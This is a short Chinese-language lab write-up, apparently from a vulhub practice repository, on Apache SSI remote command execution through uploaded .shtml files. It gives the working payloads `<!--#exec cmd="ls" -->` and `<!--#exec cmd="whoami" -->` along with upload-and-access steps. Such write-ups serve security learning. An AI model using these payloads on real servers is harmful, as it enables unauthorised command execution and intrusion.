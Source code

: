 ## Apache SSI 远程命令执行漏洞

###### by ADummy

### 0x00利用路线

​			上传shtml文件--->任意命令执行

### 0x01漏洞介绍

​			在测试任意文件上传漏洞的时候，目标服务端可能不允许上传php后缀的文件。如果目标服务器开启了SSI与CGI支持，我们可以上传一个shtml文件，并利用`<!--#exec cmd="id" -->`语法执行任意命令。

##### 			什么是SSI？

​			SSI即server-side includes，SSI提供了一种对现有HTML文档增加动态内容的方法，不需要编写复杂的JSP/PHP/ASP等程序或者调用CGI程序。

##### 			影响版本

```
apache httpd 全版本
```

### 0x02漏洞复现

##### **PAYLOAD:**

```
<!--#exec cmd="ls" -->
```

```
<!--#exec cmd="whoami" -->
```

​			**上传页面**![Apache_SSI_远程命令执行漏洞_1](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_SSI_远程命令执行漏洞_1.jpg)

​			**上传1.shtml文件**

![Apache_SSI_远程命令执行漏洞_2](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_SSI_远程命令执行漏洞_2.jpg)



​			**访问刚才上传的`/1.shtml`查看上传的文件,ls被执行**

![Apache_SSI_远程命令执行漏洞_3](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_SSI_远程命令执行漏洞_3.jpg)









​			**上传2.shtml文件**

![Apache_SSI_远程命令执行漏洞_4](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_SSI_远程命令执行漏洞_4.jpg)

​			**whoami被执行**

![Apache_SSI_远程命令执行漏洞_5](https://github.com/ADummmy/vulhub_Writeup/blob/main/src/Apache_SSI_远程命令执行漏洞_5.jpg)





​			

### 0x03参考资料

https://blog.csdn.net/qq_43571759/article/details/105883455



